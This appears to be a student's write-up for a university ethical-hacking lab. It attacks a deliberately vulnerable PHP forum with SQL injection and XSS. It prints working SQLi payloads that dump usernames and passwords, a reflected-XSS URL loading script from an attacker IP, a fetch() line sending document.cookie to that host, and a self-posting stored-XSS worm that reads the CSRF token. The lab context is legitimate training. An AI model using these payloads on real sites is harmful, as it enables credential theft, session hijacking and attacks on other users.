# Lab4: SQL Injections and XSS attacks

## 📄 Brief Summary of the Document:

This document is Task Sheet 04 for the Cyber Security Lab (Ethical Hacking) course at BTU, Summer Term 2025. It focuses on web security, specifically SQL Injection (SQLi) and Cross-Site Scripting (XSS) vulnerabilities in a demo web application.

We are given a simple forum-like PHP web app (hosted via Docker) and must:

- Exploit it like a black-box attacker (i.e., without looking at source code until the final task).

-  Perform several practical attacks (SQLi, XSS, session hijacking).

-   Demonstrate full exploitation and eventually fix the vulnerabilities.

## ✅ What We Need to Do – Task Overview
✔️ Task 1: SQL Injection – Get Admin Password

- Use SQLi to dump the admin user’s password.

-   Log in as admin and post a comment.

-   Export all users and passwords to users.txt.

✔️ Task 2: SQL Injection – List Hidden Pages

-   Find and list hidden URLs/pages in the app via SQLi (e.g., stats.php).

-   Document whether they need authentication.

-   Save page list to pages.txt.

✔️ Task 3: Discover Reflected XSS

-   Test the statistical page’s search field for reflected XSS.

-   Identify encoding, HTTP method, and data structure used.

✔️ Task 4: Session Hijacking via Reflected XSS

-   Create a malicious URL using the reflected XSS to steal session cookies.

-   Use a simple HTTP server (e.g., python3 -m http.server) to receive the data.

-   Prove the session theft by accessing the app as the victim (e.g., ada).

✔️ Task 5: Persistent XSS and Self-Propagation

-   Exploit XSS to post a malicious comment that auto-runs for future visitors.

-   Handle CSRF token and comment-posting logic in exploit.js.

-   Goal: Once a victim clicks the malicious link, all users are infected.

✔️ Task 6: Fix the Code

-   Now We can analyze the server-side PHP code.

-   Identify and fix the root causes of all previous vulnerabilities.

## What is SQLi?
SQL Injection (SQLi) is a type of code injection attack where an attacker inserts malicious SQL commands into input fields of a web application. These commands are then unknowingly executed by the backend database server.

This happens when user input is not properly sanitized or validated, allowing the attacker to manipulate the structure of SQL queries. As a result, the attacker may be able to:

-   🕵️‍♂️ View sensitive data (e.g., usernames, passwords, credit card numbers)

-   ✏️ Modify or delete database entries

-   🚪 Bypass authentication systems

-   💣 Drop entire tables or databases


## What is XSS?
Cross-Site Scripting (XSS) is a type of security vulnerability found in web applications that allows an attacker to inject malicious scripts (usually JavaScript) into webpages viewed by other users.

This can happen when the application takes user input (e.g., comments, search fields) and displays it on the page without proper filtering or encoding.

### ⚠️ Why is XSS Dangerous?

Once the malicious script runs in the victim’s browser, it can:

- 🥷 Steal cookies or session tokens (used for login)

-   📋 Read private data

-   🔗 Redirect the victim to malicious sites

-   🧠 Pretend to be the user and perform actions on their behalf

### 🎯 Types of XSS

-   Reflected XSS:
    - The script is part of the URL or request, and it’s reflected back in the server response.

    -  Triggered when a victim clicks a specially crafted link.

- Stored (Persistent) XSS:
    - The script is saved in the database (e.g., in a comment), and it runs every time someone views that page.

    -  Very powerful; affects multiple users.

- DOM-based XSS:
    -   The vulnerability is in the client-side JavaScript, not the server.

    -  Happens when the browser’s DOM is manipulated without sanitizing input.


## Tasks Solutions: 
### Task1: Obtaining the Admin Password
- In order to do so, we first must check whether there is a SQL injection vulnerability or not, so this can be done by excuting some try and error sql commands and see if we can see any errors:
    - 
- in the above screenshot we can see that on inserting wrong inputs in the login field, it says that SQLite error, this means that we are dealing with **SQLite** database and there is a vulnerability.
- so my first suspection will be that it uses such command:
    - "SELECT * FROM users WHERE username = '$username_from_input' and password = '$password_from_input'";
- so my first trial will be to use this command: 
    > ' OR 1=1 -- 
- to try to bypass the password check, but unfortunatly it did not work

- so lets try to know what is the used database scheme:
    > ' UNION SELECT name FROM sqlite_master WHERE type='table' --
- on excuting this I got the following results: 
    - 
- it shows that we have 2 tables which are:    
    - pages
    - users
- now we are more interested in the **users** table, so we need to know its columns names
    > ' UNION SELECT sql FROM sqlite_master WHERE name='users' --
- on excuting this query we can see that he users table consists of 2 columns which are: 
    - name
    - password
    - 
- now we need to select all entries
    > ' UNION SELECT name || ':' || password FROM users --
- on excuting the above command we can see that we can extract the whole entries in the table: 
    - 

### Task2: Listing the Pages of the Web Application
* while enumerating the database, we also found the table which is called **pages**
- so we can also see its content using this command: 
    > ' UNION SELECT sql FROM sqlite_master WHERE name='pages' --
    - 
    - it contains these columns: 
        - php
        - views
- so we can see its entries also using this command: 
    > ' UNION SELECT php || ':' || views FROM pages --
    - 

> Hint 2 answer: maybe by applying bruteforce enumeration we can find all the endpoints existing, and by bruteforcing the admin password, we can also find it and we can also bruteforce names.

### Task3: Discovering a Reflected XSS Vector
* from the pages we found was **search.php** 
- on adding any text to this page, we can see that it is reflected into the page itself as follows: 
    - 
- so now this can make us suspecious abbout having xss vulnerability. 
- so to make sure, we can try adding some harmless test payload like 
    > test >
- on doing so we will see that test > exists in the HTML raw output
    > 
- which shows that we can XSS vulnerability. 
- now lets answer the three existing questions: 
    1. Does the search text field provide input validation before sending the request to the server? Is it vulnerable to an XSS Reflection Attack?
        - no it does not perform any validation, and that is why it is vulnerable
    2. What HTTP method is used to send this information, i.e., the search query, to the web server?
        - it uses GET method, as we can see our query in the url
    3. How is the sent data encoded / structured?
        - we can see it in the url, so it is url encoded in a key-value format.
    4. In addition, think about the website’s authentication mechanisms and how they relate to this webpage. Why does this makes this page particularly interesting to us, especially in regards to the attacks built in the following tasks?
        - The search.php page is particularly interesting because it's publicly accessible (does not require login), but still executes within the context of an authenticated user session if the victim is logged in. This makes it a perfect attack surface for reflected XSS, as malicious scripts injected through it can access the victim's cookies or CSRF tokens, enabling session hijacking and further attacks in later tasks.
    
### Task4: Using the Reflected XSS Vector to Hijack User Sessions
* One of the major threats of reflected XSS vulnerabilities is that they allow an attacker to steal
credentials of a logged in user, i.e., to hijack user’s sessions. In particular, because input to the
vulnerable search field can be given through a URL parameter, it is possible to craft a malicious
URL of the form http://10.30.0.90/webpage?q=malicous-code , which leads
to the reflected XSS vulnerability being exploited as soon as the user clicks a link.

* so on excuting this command: 
    > http://web-lab/search.php?q=<script src="http://10.30.0.1:9000/exploit.js"\></script\>
- we can see that I got the PHPSESSID as shown in the screenshot: 
    - 
- notice that if we were not logged in, the cookie parameter will be empty.

- below is the payload we used to perform the task.
    ```js
        // Task 4 - Steal session cookie payload
        fetch("http://10.30.0.1:9000?cookie=" + document.cookie);
        
        // 10.30.0.1 -> attacker ip
        // 9000 -> port
        // document.cookie -> the victim cookie

        // then we send the GET request to the attacker with the victim cookie. 
    ```


### Task5: Posting Malicious JavaScript to the Comments using XSS Attacks
* In the previous task, we have seen how a reflected XSS attack can be utilized to hijack a user’s
session at the click of a malicious link. While this is a powerful attack already, it is far from all
that this XSS vulnerability can lead to. Ideally, we want to attack not just one user, but several.
Fortunately for us, this is possible by chaining together multiple XSS vulnerabilities. Furthermore,
we don’t want to have to make use of the stolen credentials by hand. Our ideal goal is to run the
exploit fully within the breached user’s web browser, leading to them posting a malicious comment
in their name without any trace of our own IP

* At the end of this task, one careless click of a
logged-in user will be enough for us to infect every other visitor of the forum, executing the following
evil piece of JavaScript code on their systems:
 ``` js
    <script>
    alert("ALL YOUR SCRIPT ARE BELONG TO US.");
    </script>
 ```

#### Determine if the XSS vulnerability exist
* First of all we need to log in with Ada account
* Then in the Comment field we should try to insert the command: 
    > <script\> alert("ALL YOUR SCRIPT ARE BELONG TO US.");</script\>

* we will find that there is a validation in the form
    - 

* so we will need to understand what are the invalid charachters, so by trial and error we will find that they are the special characters: 
    - ;
    - <
    - \>
    - = ! *
* now we need to find a way to bypass such validation
* first idea is to use **Burpsuite** to intercept the request, and try to modify it. 
    1. open **burpsuite**
    2. set the target as our url
    3. open the proxy and make intercept on
    4. in the comment add any dummy input: 
        - 
    5. modify the input from **any data** to our script
    6. forward the payload
    7. we can see that the payload worked
        - 
#### Investigating how to post a comment in Ada's name
* lets see what is the content of the request when we try to Post any comment: 
    - 
* we can see that we have 2 important parameters which are: 
    - comment
    - token256 which is the CSRF token
* also we have Cookie as explained in Task4 before which contains the **PHPSESSID**
* now we can write a javascript payloadd that does the following in the victim browser: 
    1. Get the CSRF token from the request
    2. Post a comment using that CSRF token
    3. and insert XSS payload as a persistent worm: 
        > <script\>alert("ALL YOUR SCRIPT ARE BELONG TO US.");</script\>
```js
// Step 1: Get the comments page to extract CSRF token
fetch("http://web-lab/comments.php")
  .then(response => response.text())
  .then(html => {
    // Parse HTML response
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, "text/html");

    // Extract the CSRF token from the hidden input
    const token = doc.querySelector('input[name="token256"]').value;

    // Step 2: Prepare malicious comment payload
    const payload = encodeURIComponent('<script>alert("Exploit is working.");</script>');

    // Step 3: Submit the comment
    fetch("http://web-lab/comments.php", {
      method: "POST",
      headers: {
        "Content-Type": "application/x-www-form-urlencoded"
      },
      body: `comment=${payload}&token256=${token}`
    });
  });


```

- in order to deploy it, we need to save it as **task5_payload/exploit.js**
- run a server on our attacker machine
    > python3 -m http.server 9000 --bind 10.30.0.1
- send any request, and replace the comment parameter with this payload: 

    > (script src="http://10.30.0.1:9000/exploit.js"> </script)

- add this link in ada URL (simulating that ada pressed the link)
- we can see that the exploit worked:
    - 

##### Now lets answer some theoritical questions: 
1. Q1) what is CSRF Token? 
    - it is a cross-site request forgery token, which is a token used to prevent attacker from tricking logged-in users into unintentinally sending a request to a vulnerable site acting as that user.
2. What is defends against? 
    - CSRF attacks
3. how it is utilized and checked? 
    - when a user visit a site, it sets a session cookie
    - A protected form includes hidden input field
    - the server generates a random token when serving the page
    - When the user submits the form, the token is sent back in the request.

    - The server verifies:

        - The user has a valid session (via cookie)

        - The CSRF token matches what was issued
##### Why This Defends Against CSRF

- If an external attacker site tries to submit a request:

    - It cannot read the protected page (due to Same-Origin Policy).

    - So it can’t know the correct token.

- Even if it includes the session cookie (which the browser sends automatically), the token will be missing or invalid → the request fails.

##### Why This Does Not Defend Against XSS

- XSS runs inside the victim's browser

- It can read the HTML, extract the token using JavaScript, and use it to make valid requests


##### Verify that the task work on other users: 
- log in with Chalies's credientials: 
    - charles | analytical
- now we can see that it works: 
    - 
    - and you can see that charles was forced to leave a comment while he actually did not insert anything.